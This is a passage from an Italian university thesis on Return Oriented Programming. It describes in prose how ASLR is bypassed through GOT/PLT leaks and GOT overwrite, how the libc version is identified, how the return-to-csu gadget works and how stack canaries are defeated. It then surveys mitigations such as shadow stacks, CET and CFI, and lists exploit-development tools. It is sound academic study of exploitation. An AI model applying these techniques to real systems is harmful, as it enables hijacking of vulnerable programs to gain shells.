È importante sottolineare questo punto poiché in futuro risulterà essere fondamentale negli attacchi che verranno proposti.\\
Adesso che è stato sinteticamente enunciato questo complesso concetto, è possibile concentrarsi sulle due differenti tipologie di situazioni che verranno affrontate durante questo metodo di attacco.\\
Inizialmente verrà approfondita la prima situazione, in cui saranno mostrati due attacchi differenti che porteranno allo stesso risultato.
Successivamente, sarà invece studiata la seconda, dove verrà spiegato un singolo attacco focalizzato sul recupero del file della libreria C standard collegata al programma.

\subsection{Attacchi conoscendo la libreria collegata}
\label{subsec:Attack_3.2}
In questa tipologia di attacco, l'utente malevolo disporrà del file di una delle librerie collegate al codice, e potrà sfruttare anche delle diverse funzioni contenute al suo interno. Accade spesso che all'interno delle librerie siano presenti più funzionalità,
che se richiamate dall'utente malintenzionato, diano accesso ad un'infinità di possibili soluzioni per effettuare i propri attacchi (basti pensare a tutte le funzioni contenute in \textbf{libc}\footnote[1]{\textbf{libc} è il termine usato per indicare la Standard C library.}).\\
Per poter utilizzare tali procedure, sarà necessario prima scoprire gli indirizzi su cui risiedono tali funzioni in memoria. Tuttavia, se come nei test che verranno affrontati nel capitolo successivo sulle librerie collegate è abilitata la difesa \textbf{ASLR}, l'unico modo di recuperarli sarà sfruttando le due sezioni del file \textbf{ELF} del programma introdotte precedentemente, ossia \textbf{PLT} e \textbf{GOT}.\\
In base a come l'attaccante deciderà di sfruttare queste due sezioni, potranno essere adottati due tipologie di approcci differenti per eludere questa meccanica di difesa, il primo prevede il recupero dell'indirizzo di partenza in memoria su cui risiedono tutte le funzioni esterne della libreria \cite*{Return2plt}, il secondo prevede invece di modificare uno degli indirizzi puntati dalla ``\textbf{.got.plt}'', con quello di un'altra funzione voluta dall'utente \cite*{PLT-GOT-OVERWRITE}.

\subsection*{Attacco recuperando l'indirizzo di partenza della libreria in memoria}
\label{subsec:Attack_3.2.1}
In questo primo approccio d'attacco, come anticipato, l'obbiettivo sarà quello di recuperare l'indirizzo di partenza nella quale sono state cariche le funzioni esterne della libreria in memoria.\\
Quello che in questi casi può rendere più complesso l'attacco, è il sistema di difesa \textbf{ASLR}. Infatti, per via della sua presenza, l'unica possibilità di recuperare l'indirizzo in memoria di almeno una delle funzioni di libreria sarà quella di ottenerlo direttamente dalla sezione ``\textbf{.got.plt}'' dopo che la prima chiamata sarà già stata effettuata e quindi la voce in tabella ad essa associata sarà già stata aggiornata con il suo indirizzo effettivo.\\
Per portare a compimento l'attacco, invocando correttamente la \textit{shell}, sarà necessario creare due \textbf{ROP chain}, la prima dove l'obbiettivo sarà quello di recuperare l'indirizzo di una delle funzioni esterne in memoria, la seconda in cui, dopo aver calcolato l'offset corretto dell'indirizzo di partenza in memoria della libreria, verrà richiamata una funzione che consentirà di eseguire una shell (nel caso della \textbf{libc} potrebbe anche semplicemente essere \textbf{system}).\\
La prima chain sarà quindi, in questo caso, quella fondamentale per portare a compimento l'attacco. Alcune delle funzioni esterne più comuni trovabili in programmi in linguaggio C sono \textbf{puts} e \textbf{printf}. Allora una delle possibili idee potrebbe essere quella di usare la prima \textbf{ROP chain} per richiamare la \textbf{puts}\footnote[1]{la \textbf{puts} stampa a schermo quello che è contenuto all'indirizzo puntato dal puntatore passato.}, passandogli come argomento il puntatore memorizzato alla voce della ``\textbf{.got.plt}'' 
associata ad essa e facendo scrivere quindi al programma stesso questa fondamentale informazione.\\
Quanto appena descritto funzionerà solamente se la \textbf{puts} era già stata richiamata in precedenza dall'applicazione (cosa comunque altamente probabile), altrimenti sarà necessario inserire una sua chiamata all'interno della catena, così da avere per certo il suo indirizzo effettivo nella ``\textbf{.got.plt}'', al momento della stampa a schermo.\\
\begin{figure}
    \centering
    
\includegraphics[width=0.70\textwidth]{images/puts-precall.png}
    \\
    
\includegraphics[width=0.70\textwidth]{images/puts-aftercall.png}
    \caption{\label{fig:plt}Esempio preso dai test del contenuto di ``\textbf{.got.plt}'' associato alla funzione esterna \textbf{puts}, \textbf{prima} e \textbf{dopo} una sua prima chiamata dall'applicazione.}
\end{figure}

Al termine di tale processo, sarà necessario calcolare l'indirizzo di partenza della libreria in memoria, andando a sottrarre l'indirizzo statico (quello prima della allocazione effettiva nella memoria) di tale funzione presente nel file ELF della libreria, a quello ottenuto nel punto precedente \cite*{Return2plt}.\\
Una volta ottenuta tale informazione, basterà sottrarre l'indirizzo statico della funzione (o delle funzioni) che si vuole richiamare a quello di base del punto precedente ed inserire tale dato all'interno di una nuova \textbf{ROP chain}, così da deviando conseguentemente il normale flusso del programma.

\subsection*{Attacco sovrascrivendo la GOT table}
\label{subsec:Attack_3.2.2}
Nel precedente approccio, si è affrontata una tecnica che consentiva di recuperare l'indirizzo di base della libreria in memoria, tuttavia questo non rappresenta l'unico modo per bypassare una difesa come \textbf{ASLR} utilizzando la \textbf{Return Oriented Programming}.\\
Quando nella sezione \ref{subsec:PLT-GOT} sono state introdotte le due sezioni \textbf{Procedure Linkage Table} e \textbf{Global Offset Table} presenti all'interno del file \textbf{ELF}, è stato omesso un dettaglio cruciale per questa tecnica riguardo la \textbf{GOT}, ossia che, a differenza della \textbf{PLT}, essa \underline{non è di tipo \textit{read-only}}.
È quindi possibile scrivere all'interno di tale sezione, alterandone gli indirizzi contenuti in essa.\\
L'idea che ruota attorno a questa tipologia d'attacco è che, se l'attaccante riesce a calcolare l'offset tra gli indirizzi statici di due funzioni nel file \textbf{ELF} della stessa libreria, come possono essere \textbf{puts} e \textbf{system} nella \textbf{libc}, sarà sufficiente attendere che il processo effettui la chiamata ad una delle due funzioni, nel caso \textbf{puts}, per aggiornare il contenuto del puntatore associato alla sua voce in ``\textbf{.got.plt}'', ed andare poi a sommare l'offset
calcolato in precedenza a tale indirizzo contenuto \cite*{GOT-OVERWRITE}\cite*{GOT-OVERWRITE-MITIGATION}.\\
Il risultato finale sarà che ad una qualsiasi prossima chiamata di tale funzione, verrà invece invocata la seconda subroutine di cui l'utente malevolo ha calcolato l'offset con la prima precedentemente, quindi nel caso specifico \textbf{system}.\\
Questo dettaglio apparentemente piccolo della sezione \textbf{GOT}, fornisce quindi una soluzione ulteriore per effettuare i propri attacchi sfruttando sempre la \textbf{ROP}.

\subsection{Attacco non conoscendo la versione della libc collegata}
\label{subsec:Attack_3.3}
Nella \hyperref[subsec:Attack_3.2]{prima} situazione, l'attaccante disponeva del file \textbf{ELF} della libreria, e grazie a ciò conosceva gli offset degli indirizzi delle funzioni all'interno di essa. Tuttavia, effettuando attacchi \textbf{ROP} da remoto o comunque non essendo possibile recuperare in alcun modo (senza utilizzare un exploit) la versione corrispondente delle librerie collegate all'applicazione attaccata, diviene essenziale trovare un metodo efficace per farlo.\\
Come visto nei due attacchi precedenti, è di fondamentale importanza avere a disposizione l'\textbf{ELF} delle librerie perché l'utente possa utilizzare le funzioni al loro interno, soprattutto se in presenza di difese come \textbf{ASLR}.\\
Solitamente, qualsiasi programma in linguaggio C fa utilizzo di almeno una funzione della \textbf{libc}, venendo conseguentemente collegata dinamicamente con esso \cite*{Ret2libc-libcexpl}. In questi casi, l'attaccante può provare a recuperare la versione della ``\textbf{standard C library}'' con un approccio molto simile a quello usato nella sezione \ref{subsec:Attack_3.2.1}.\\
In questo caso, servirà ottenere due indirizzi effettivi in memoria di funzioni appartenenti alla libreria, stampandoli inserendo due chiamate alla funzione \textbf{puts} nella \textbf{ROP chain}. Grazie ad essi, sarà possibile ricercare la corretta versione della libreria in alcuni database online contenenti i simboli di moltissime versioni di \textbf{libc}, come il seguente: \label{libc-db}\href{https://libc.blukat.me/}{libc database}. \cite*{find-libc-version}\\
Questo è possibile nonostante la presenza di ASLR, perché l'indirizzo di base della libreria in memoria terminerà sempre con la sequenza ``\textbf{000}'' per una questione di allineamento delle regioni di memoria. \cite*{find-libc-version2}
\begin{figure}[ht]
    \centerline{
\includegraphics[scale=.5]{images/memory-paging.png}}
    \caption{Esempio di un possibile mapping di memoria, ogni indirizzo termina con la sequenza ``\textbf{000}''.}
    \label{fig:Mem-paging}
\end{figure}

Quindi ogni simbolo o indirizzo statico di \textbf{libc} terminerà sempre con la stessa sequenza di tre caratteri finali, nonostante la presenza di \textbf{ASLR}. Conseguentemente, gli offset tra i simboli saranno costanti per una particolare versione di essa.\\ 
Questi offset, recuperati dagli indirizzi ottenuti con la \textbf{ROP chain}, potranno essere allora cercati online nei \hyperref[libc-db]{database sopraccitati}.\\
Un esempio pratico può essere il seguente preso dai test effettuati, dove gli indirizzi ottenuti durante l'esecuzione dell'applicazione erano i seguenti: 
\begin{itemize}
    \item \textbf{puts} \space: \texttt{0x7f79ab24e5a0}
    \item \textbf{scanf}: \texttt{0x7f79ab22d230}
\end{itemize}
Nel primo caso l'offset sarà ``\textbf{\texttt{5a0}}'', mentre nel secondo sarà ``\textbf{\texttt{230}}''. Inserendoli nel database online si otterranno tre versioni della stessa libreria che non presenteranno particolari differenze l'una dall'altra. 

\begin{figure}[htbp]
    \centerline{\frame{
\includegraphics[scale=.45]{images/libc-database.png}}}
    \caption{Esempio di ricerca in uno dei database delle \textbf{libc}, inserendo due offset ottenuti dagli indirizzi in memoria delle funzioni \textbf{puts} e \textbf{scanf}.}
    \label{fig:libc-db}
\end{figure}

Recuperata la versione di \textbf{libc} corretta e calcolato l'indirizzo di base in memoria di essa come nell'attacco della sezione \ref{subsec:Attack_3.2}, l'attaccante potrà utilizzare qualsiasi funzione all'interno di essa grazie alla \textbf{Return Oriented Programming}, come ad esempio quella per eseguire una \textit{shell} \cite*{find-libc-version}.

\section{Attacco utilizzando la funzione \_\_libc\_csu\_init()}
\label{sec:Attack_4}
Accade spesso che in attacchi con protagonista la \textbf{Return Oriented Programming}, prima di inserire la chiamata di una determinata funzione all'interno della propria \textbf{ROP chain}, debbano essere prima impostati correttamente i contenuti di alcuni registri, nello specifico quelli previsti dalle \hyperref[call-convention]{convenzioni di chiamata utilizzata nell'architettura \textbf{x86-64}}, 
quindi \textbf{rdi}, \textbf{rsi}, \textbf{rdx}, \textbf{rcx}, \textbf{r8}, \textbf{r9}.\\
È molto comune infatti che le funzioni richiedano dai due ai tre parametri se non di più, per essere richiamate in maniera corretta. Per questo diviene spesso fondamentale poter controllare alcuni dei registri sopraccitati.\\
Il problema che si ci può ritrovare ad affrontare, nel caso di piccoli codici come quello visto nei test, è la mancanza di gadgets per controllare il contenuto di questi specifici registri.\\
A tale scopo, col passare degli anni è stata trovata una soluzione che per le sue potenzialità prese addirittura il nome di ``\textbf{Universal ROP}'' \cite*{return-to-csu-challenge}.\\ 
Questa tecnica, più comunemente definita ``\textbf{return-to-csu}'', riguarda nello specifico i sistemi GNU/Linux e prende nome da una particolare funzione definita \textbf{\_\_libc\_csu\_init}(), trovabile tra i simboli di un qualsiasi file \textbf{ELF} di un programma.\\
Essa fa parte di quello che viene chiamato ``\textbf{attached code}'', ossia simboli addizionali presenti nell'\textbf{ELF} di un'applicazione, non facenti parte del codice sorgente prima della sua compilazione. \cite*{return-to-csu}\\
Senza entrare troppo nei dettagli di questo fenomeno \cite*{return-to-csu2}, quello che l'ha reso particolarmente interessante per la creazione degli exploit, è la presenza di un \textbf{gadget} trovabile all'interno di \textbf{\_\_libc\_csu\_init}() che consente di controllare alcuni registri di primaria importanza come \textbf{edi}, \textbf{rsi}, \textbf{rdx} ed altri quali \textbf{rbp}, \textbf{rbx}, \textbf{r12}, \textbf{r13}, \textbf{r14}, \textbf{r15}.\\

\begin{figure}[htbp]
    \centerline{
\includegraphics[scale=.65]{images/__libc_csu_init.png}}
    \caption{Gadget utilizzabile per controllare \textbf{edi}, \textbf{rsi}, \textbf{rdx}, \textbf{rbp}, \textbf{rbx}, \textbf{r12}, \textbf{r13}, \textbf{r14}, \textbf{r15}, disponibile per via di \textbf{\_\_libc\_csu\_init}().}
    \label{fig:csu-gadget}
\end{figure}

Come si vedrà successivamente nei test, questo \textbf{gadget} consente di gestire parecchi registri, tuttavia non senza un minimo di difficoltà. Infatti, nell'utilizzare tale sequenza è necessario fare attenzione ad un'istruzione in particolare (visibile anche in figura \ref{fig:csu-gadget}) che se non gestita in maniera corretta, può portare alla terminazione dell'applicazione:
\\\\\centerline{\texttt{\large{\textbf{\textcolor{Bittersweet}{call}  \space  qword [R15 + RBX*8];}}}}\\\\
Questa istruzione caricherà l'indirizzo di ritorno nello stack ed andrà ad eseguire quanto contenuto nell'indirizzo tra le due parentesi quadre.\\
Per far sì che l'esecuzione non termini, sarà necessario quindi passare a tale istruzione un puntatore ad un gadget, cosicché una volta terminata la subroutine in esso contenuta, verrà recuperato l'indirizzo di ritorno nello stack, e ripresa l'esecuzione dall'istruzione successiva alla ``\textbf{call}''.\\
Una volta trovato un opportuno puntatore, sarà sufficiente caricare il suo indirizzo nel registro \textbf{r15} ed azzerare invece il contenuto di \textbf{rbx}, per ottenere il risultato desiderato \cite*{return-to-csu2}.\\
Se usata con accortezza questa tecnica consentirà di gestire alcuni dei più importanti registri utilizzando la \textbf{Return Oriented Programming}, seppur avendo pochi \textbf{gadgets} a disposizione.

\section{Attacco con bypass dello ``stack canary''}
\label{sec:Attack_5}
Come ultimo attacco verrà affrontato quello che probabilmente rappresenta uno dei metodi più antichi utilizzati per rilevare alcune vulnerabilità all'interno dei codici, ossia quelli che vengono definiti ``\textbf{Stack Canaries}''.\\
Prima di entrare nel vivo dell'attacco verrà fatta un'introduzione a questa storica tecnica di difesa.

\subsection*{Gli ``stack canaries''}
\label{sec:stack canaries}
Gli \textbf{stack canaries} sono una delle più conosciute mitigazioni ad exploit che sfruttano gli \textbf{stack-based buffer overflow}.\\L'idea di base è quella di inserire un valore casuale chiamato appunto ``\textbf{canary}'' esattamente tra le variabili locali e i dati critici (come l'indirizzo di ritorno), in ogni stack frame generato \cite*{Canary}. Se l'attaccante proverà a sfruttare qualche vulnerabilità per sovrascrivere tali dati, sarà costretto a modificare pure questo speciale valore, visto il suo posizionamento
nello stack. Qualsiasi modifica apportata al ``\textbf{canary}'' sarà identificata durante il flusso di esecuzione dell'applicazione, più nello specifico subito prima di un'istruzione \textbf{ret} alla fine di una subroutine, con la conseguente terminazione di esso \cite*{Canary2}. 

\begin{figure}[htbp]
    \centerline{\frame{
\includegraphics[scale=.4]{images/Canary.png}}}
    \caption{Esempio di stack contenente il ``\textbf{canary}''.}
    \label{fig:canary}
\end{figure}
Un utente non avrà quindi modo di ottenere il controllo del flusso del programma, visto che questa verifica di integrità sarà sempre effettuata prima di una qualsiasi istruzione \textbf{ret}.\\
Esistono diverse tipologie di \textbf{stack canaries}, ognuna in grado di offrire protezioni in modi differenti: 
\begin{itemize}
    \item \textbf{Terminator canary} \\
    Consiste di vari caratteri ed almeno uno di quelli definiti ``\textbf{terminatore di stringa}''\footnote[1]{I ``\textbf{caratteri terminatori di stringa}'' in linguaggio C sono speciali caratteri che hanno la funzione di delimitare la fine di una stringa.} (come \textit{new line}, \textit{null}, \textit{e.t.c.}).\\
    l'idea in questo caso è che siccome molte delle vulnerabilità nei codici sono dovute a funzioni quali \textbf{gets()}, \textbf{strcpy()}, l'attaccante non potrà inserire tali valori nel proprio input. Se per esempio si considera un overflow causato da una \textbf{gets()}, se il ``\textbf{canary}'' conterrà il carattere speciale \textit{new line} non potrà essere replicato dall'utente malevolo, in quanto tale funzione terminerà la lettura dell'input alla ricezione di quel carattere.
    \item \textbf{Random canary} \\
    Consiste di una sequenza random di byte sconosciuta all'attaccante. In questo caso, tale dato potrà essere replicato dall'utente se all'interno del codice sarà presente ad esempio una vulnerabilità di tipo \hyperref[subsec:format string]{\textbf{format string}}, che gli consenta quindi di recuperare tale valore dallo stack.
    \item \textbf{Random XOR canary} \\
    Come il \textbf{Random canary}, consiste di una sequenza random di byte a cui è stata effettuata una \textbf{XOR} utilizzando i dati di controllo nello stack (come \textbf{indirizzo di ritorno} oppure il precedente valore del registro \textbf{rbp}), aggiungendo un livello ulteriore di casualità. In questo caso, anche una modifica a tali dati porterà quindi ad alterare indirettamente il \textbf{canary}.\\
\end{itemize}
Nei primi due casi, risulterà comunque un sistema di difesa inutile se, come si vedrà nei test, l'attaccante potrà sovrascrivere indirizzi di memoria arbitrari, tramite delle vulnerabilità all'interno del codice, consentendogli di modificare i dati di controllo all'interno dello stack, come l'\textbf{indirizzo di ritorno}, senza alterare il canary.\\
Il terzo caso, invece, cerca di evitare attacchi come quello appena descritto mettendo assieme \textbf{random canary} e \textbf{dati di controllo}, bloccando l'esecuzione sia in caso di modifica del primo che del secondo. Tuttavia, se l'utente avrà comunque modo di recuperare tramite altre vulnerabilità i dati in memoria (\hyperref[subsec:format string]{\textbf{format string}}), il canary fallirà nuovamente nel suo obbiettivo.\\
A volte è anche possibile trovare le tre casistiche combinate assieme, quindi per fare un esempio, \textbf{random canary} con un \textbf{carattere terminatore di stringa} fisso al suo interno. Sono anche queste soluzioni adottabili, però in certi casi possono rendere il canary più semplice da indovinare avendo una casualità ridotta.\\
\begin{figure}[ht]
    \centerline{\frame{
\includegraphics[scale=.5]{images/canary-stack.png}}}
    \caption{Esempio di stack canary in Linux, è tipico di questo sistema mettere un carattere di fine stringa come primo carattere del canary (ultimo nell'immagine per la notazione little indian).}
    \label{fig:canary-stack}
\end{figure}
In conclusione, gli \textbf{stack canaries} non sono sicuramente una difesa insuperabile, soprattutto in presenza di vulnerabilità che consentano di recuperare i dati in memoria. Questo non è sorprendente dal momento che furono creati per evitare l'exploit di vulnerabilità quali \textbf{buffer overflows}, e più nello specifico quelli inerenti allo stack. \cite*{Canary}

\subsection*{Bypass del canary}
\label{sec:canary bypass}
Come anticipato precedentemente, il canary all'interno dello stack può essere bypassato in presenza di diverse vulnerabilità ed in diversi modi, uno dei più classici è scoprendo il suo valore. L'opzione più semplice in questi casi è sfruttando le \hyperref[subsec:format string]{\textbf{format string}} se presenti all'interno del codice, altrimenti un'altra opzione può essere facendo quello che viene definito ``\textbf{bruteforce}'' dello stesso. Questa tecnica consiste nel testare tutti i
possibili caratteri uno dopo l'altro, avanzando di posizione fino a completamento ogni qualvolta ne sia stato trovato uno di corretto. Questo è possibile perché il canary viene generato ogni volta che l'applicazione viene eseguita, tuttavia, se vengono effettuate tante \textbf{fork}\footnote[1]{\textbf{fork()} è una funzione in Unix che porta a creare un secondo processo, detto \textbf{processo figlio}, identico al primo anche detto \textbf{processo padre}.} dello stesso processo, verrà mantenuto 
lo stesso canary anche nei processi figli, consentendo all'attaccante di effettuare un ``\textbf{bruteforce}'' su di esso. \cite*{Canary-bypass-brute}\\
Esistono altre tecniche per bypassare il canary, una di queste sarà quella utilizzata nel test \ref{sec:Test_5}. Tale tecnica prevede la sovrascrittura dell'indirizzo di un puntatore, su cui nelle fasi successive dell'esecuzione del programma, sarà possibile andare a scrivere. Se l'attaccante riuscirà a sostituire l'indirizzo del puntatore con quello dello stack su cui invece risiede l'indirizzo di ritorno, potrà utilizzare la \textbf{Return Oriented Programming} inserendo la propria 
\textbf{ROP chain} a partire da tale indirizzo, evitando conseguentemente di modificare il canary ed alterando comunque il flusso del programma.\\
In tale attacco si utilizzerà una vulnerabilità di tipo \hyperref[subsec:format string]{\textbf{format string}}, per recuperare l'indirizzo dello stack su cui risiede l'indirizzo di ritorno (\textbf{rbp}+8). Tale valore sarà poi sostituito grazie ad un \textbf{buffer overflow} a quello di un puntatore, su cui nelle fasi successive del programma sarà possibile scrivere. Una volta raggiunto tale punto, al posto del puntatore ci sarà l'indirizzo posto dall'attaccante e sarà quindi possibile andare a scrivere
direttamente sopra all'indirizzo di ritorno la \textbf{ROP chain}.
\\
Ora che sono state enunciate le idee su cui si basano queste differenti tecniche, con cui può essere applicata la \textbf{ROP}, verrà fatto un piccolo riepilogo riguardo le possibili mitigazioni a tali tecniche, ed in maniera generale alla \textbf{Return Oriented Programming}.

\section{Mitigation alla Return Oriented Programming}
\label{sec:mitigation}
Di seguito verranno brevemente introdotte alcune delle possibili mitigazioni contro gli attacchi \textbf{Return Oriented Programming} che sfruttano alcune delle vulnerabilità riguardanti la memoria.\\
\textbf{ProPolice} \cite*{Pro-Police} Oppure \textbf{Stack-Guard} \cite*{Stackguard} sono solo alcune delle tecniche in grado di prevenire i tradizionali attacchi basati sulla compromissione dello stack. Entrambi questi metodi sono buoni nella prevenzione dei tipici attacchi che sfruttano i \textbf{bufer overflow}, tuttavia sono noti alcuni metodi di elusione \cite*{StackGuard-bypass}, in grado di vanificarne parzialmente l'efficacia. \textbf{Bounds Checking} \cite*{BoundsChecking} è un'altra discreta tecnica che previene la corruzione 
delle aree di memoria alla radice, evitando lo sfruttamento da parte dell'attaccante di possibili overflow dei buffer.\\
Una delle meccaniche più efficaci in grado di assicurare il corretto flusso di esecuzione di un'applicazione è ``\textbf{Shadow Stack}''. Il concetto utilizzato in tale caso è quello di avere una specifica area di memoria dedicata esclusivamente all'archiviazione delle copie di backup di tutti gli indirizzi di ritorno. Al termine di una funzione, l'indirizzo di ritorno memorizzato nello stack frame attuale viene confrontato con quello in cima allo \textit{shadow stack} (l'esito sarà positivo solamente se il contenuto dello stack
non è stato alterato). Utilizzando questa tecnica si può sconfiggere gli attacchi \textbf{Return Oriented Programming}, in quanto l'utente dovrebbe sovrascrivere sia l'indirizzo di ritorno memorizzato nello stack che quello archiviato nello \textit{shadow stack}. L'unico problema che persiste con questa tecnica è che protegge solamente tale indirizzo, non fornendo quindi una protezione verso attacchi di tipo \hyperref[jop]{\textbf{JOP}}. A tale scopo \textbf{Intel} ha introdotto e successivamente rilasciato la 
\textbf{Control-flow Enforcement Technology} (\textbf{CET}), una funzionalità all'interno dei nuovi processori che sfrutta anche il concetto dello \textit{shadow stack} per prevenire sia attacchi \textbf{ROP} che \textbf{JOP} \cite{CET}.\\
Infine, i sistemi di protezione del flusso di controllo (\textbf{Control-flow integritiy} o \textbf{CFI}) \cite*{CFI1}\cite*{CFI2} possono impedire che il controllo del flusso di un programma venga dirottato. Alcune implementazioni di tali sistemi prevedono l'esclusiva esecuzione delle istruzioni necessarie per il normale flusso del programma, escludendo conseguentemente molti dei \textbf{gadgets} che potrebbero essere invece utilizzati.\\
Dopo aver riassunto quelle che sono le principali meccaniche di difesa dagli attacchi \textbf{Return Oriented Programming}, nel prossimo capitolo verranno illustrati i test che sono stati effettuati utilizzandola ed applicando le tecniche viste in precedenza.

\chapter{Testing degli attacchi}
\label{chap:Test}
Quest'ultima parte dell'elaborato sarà interamente incentrata nell'illustrare in maniera dettagliata i test effettuati sfruttando i concetti e le tecniche di attacco introdotte nello \hyperref[chap:Attacks]{\textbf{scorso capitolo}}, su del codice affetto da alcune delle vulnerabilità mostrate nelle \hyperref[sec:Vulnerabilita]{\textbf{passate sezioni}}.\\
Inizialmente verranno illustrati gli strumenti che sono stati utilizzati, per sviluppare gli attacchi all'interno dei singoli test. Successivamente sarà mostrata la parte del codice su cui sono stati effettuati i test, mentre la restante parte di esso, ossia la libreria, sarà introdotta direttamente durante l'esposizione di ogni singolo attacco, così da 
avere un approccio diretto e più chiaro su ciò di cui si sta trattando.

\section{Introduzione al setup e gli strumenti utilizzati per effettuare i test}
\label{sec:Tools-setup}
Le prossime due sezioni avranno lo scopo di introdurre quelli che poi saranno i principali interpreti dei test, ossia gli strumenti che saranno utilizzati per creare gli exploit oppure per effettuare analisi statiche o dinamiche sul software ed il codice che sarà invece oggetto principale degli attacchi.

\subsection*{Introduzione agli strumenti}
\label{subsec:Tools}
Come già anticipato precedentemente al termine della sezione \ref{subsec:gadgets}, per sviluppare gli exploit, ossia costruire le \textbf{ROP chain} ed effettuare le varie analisi nel codice vulnerabile, sarà fondamentale il supporto di alcuni \textbf{tools} e strumenti anche solo per la semplificazione del lavoro.
Di seguito verrà fornita una lista di tutti gli strumenti utilizzati, corredati da descrizione e funzionalità sfruttate all'interno dei test:
\begin{itemize}
        \item \label{GDB}\textbf{GDB: The GNU Project Debugger} \cite*{GDB}\\
              \textbf{GDB} è il conosciutissimo ``\textbf{debugger}'' di programmi in Linux, come tale permette di analizzare un'applicazione durante la sua esecuzione, andando a soffermarsi in particolari punti di essa oppure in specifiche istruzioni. Permette inoltre di visionare il contenuto dei registri oppure dello stack.\\
              Nel caso dei test effettuati è stato utilizzato soprattutto per analizzare il contenuto dello stack e dei registri, soprattutto nelle fasi d'inserimento dell'input da parte dell'utente, e per controllare il flusso di esecuzione dell'applicazione una volta immessa la \textbf{ROP chain} nello stack.
        \item \label{PEDA}\textbf{PEDA - Python Exploit Development Assistance for GDB} \cite*{PEDA}\\ 
              Questo tool è un'estensione del famoso ``debugger'' sopracitato (\textbf{GDB}). Essa permette di visualizzare in maniera più chiara dati, quali stack e registri, durante l'esecuzione delle applicazioni con l'ausilio di \textbf{GDB}. Aggiunge inoltre alcuni comandi utili, come \textit{checksec} per vedere i sistemi di sicurezza abilitati nel
              binary file dell'applicazione, oppure \textit{readelf} per ottenere le principali informazioni di un file \textbf{ELF}.
        \item \label{Ropper}\textbf{Ropper} \cite*{Ropper}\\
              \textbf{Ropper} è un tool la cui principale funzione è quella di cercare e successivamente mostrare a schermo i \textbf{gadgets} presenti all'interno dei binary file delle applicazioni. È stato preferito ad altri strumenti più per una questione estetica, in quanto offre un'interfaccia ben colorata che evidenzia bene i vari \textbf{gadgets}.
              Durante i test è stato utilizzato per creare le \textbf{ROP chain}, inserendoci gli indirizzi dei vari gadget da esso rilevati all'interno dei file.
        \item \label{Radare2}\textbf{Radare2: Unix-Like Reverse Engineering Framework} \cite*{Radare2}\\
              \textbf{Radare2} è un framework open-source molto utile che comprende più tools per aiutare nell'analisi dei binary file.\\
              Nello specifico, è stato utilizzato durante i test per analizzare a livello statico la composizione di determinate sezioni dei binary file.
        \item \label{pwntools}\textbf{pwntools} \cite*{pwntools}\\
              Quest'ultimo, è una libreria Python per lo sviluppo di exploit. È stata creata a scopo di sviluppo e prototipazione, con l'intenzione di rendere la scrittura degli exploit il più semplice possibile.\\
              Nei test è stato di fondamentale importanza, in quanto essenziale nella creazione delle \textbf{ROP chain} e l'automatizzazione degli attacchi. Consente inoltre di impostare il ``\textbf{context}'', ossia una variabile globale che permette di settare certi dati, che in futuro potranno essere sfruttati dalle funzioni della libreria stessa. 
              Ad esempio, impostando il file \textbf{ELF} del codice vulnerabile alla voce \textit{context.binary}, le funzioni si adatteranno automaticamente per funzionare correttamente con le impostazioni di tale binary (come i bit dei registri, oppure il metodo di ordinamento dei byte).\\
              I moduli di principale utilizzo durante i test sono stati 4:
              \begin{itemize}
                      \item \textbf{pwnlib.tubes.tube}: Questo modulo fornisce un'interfaccia per comunicare con un server remoto oppure un processo locale. Mediante diverse funzionalità, come quelle utilizzate nei test, è possibile scambiare dati tra due processi attivi, come ad esempio il codice di exploit e l'applicazione obbiettivo degli attacchi.
                      \item \textbf{pwnlib.elf.elf}: Questo secondo modulo offre varie funzionalità per ottenere informazioni dal file \textbf{EFL} eseguibile dell'applicazione vulnerabile. Grazie ad esso, è possibile recuperare gli indirizzi delle funzioni, delle variabili, o di qualsiasi altro simbolo presente nel \textbf{ELF}. Tali informazioni 
                      sono accessibili come un dizionario oppure utilizzando la notazione puntata.
